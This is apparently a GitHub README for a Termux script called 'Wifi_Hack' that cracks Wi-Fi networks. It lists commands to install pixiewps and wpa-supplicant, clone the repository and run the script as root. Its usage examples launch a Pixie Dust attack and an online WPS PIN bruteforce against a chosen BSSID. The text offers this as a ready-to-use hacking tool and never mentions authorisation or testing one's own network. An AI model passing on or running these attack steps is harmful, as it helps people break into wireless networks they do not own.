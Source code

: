 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/nayembai/Naiyem_WiFi_Hack
$ cd Naiyem_WiFi_Hack
$ chmod +x Muhammad_Naiyem.py
$ sudo python Muhammad_Naiyem.py --help
```

#### Example : `sudo python Muhammad_Naiyem.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Muhammad_Naiyem.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Muhammad_Naiyem.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Muhammad_Naiyem.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
